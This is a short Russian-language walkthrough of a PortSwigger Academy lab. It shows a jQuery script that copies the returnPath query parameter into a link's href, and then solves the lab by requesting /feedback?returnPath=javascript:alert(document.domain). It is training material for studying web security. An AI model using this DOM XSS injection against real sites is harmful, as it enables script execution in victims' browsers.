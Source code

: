 зайдем в случайный пост, и посмотрим на форму фидбека, отправим тестовый пост и посмотрим в прокси хттп хистори ответы
```
GET /feedback?returnPath=/post 
```
![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/13.%20%D0%A1ross-site%20scripting%20(XSS)/6.%20DOM%20XSS%20in%20jQuery%20anchor%20href%20attribute%20sink%20using%20location.search%20source/pics%20for%20walktrough/1.png)
и заметим внутри следующий скрипт
```
                       <script>
                            $(function() {
                                $('#backLink').attr("href", (new URLSearchParams(window.location.search)).get('returnPath'));
                            });
                        </script>
```
и отправим его в `Repeater`
И отправим 
```
GET /feedback?returnPath=javascript:alert(document.domain)
```
![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/13.%20%D0%A1ross-site%20scripting%20(XSS)/6.%20DOM%20XSS%20in%20jQuery%20anchor%20href%20attribute%20sink%20using%20location.search%20source/pics%20for%20walktrough/2.png) 
и получим сообщение об успешно выполненной лабораторной работе
![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/13.%20%D0%A1ross-site%20scripting%20(XSS)/6.%20DOM%20XSS%20in%20jQuery%20anchor%20href%20attribute%20sink%20using%20location.search%20source/pics%20for%20walktrough/3.png) 
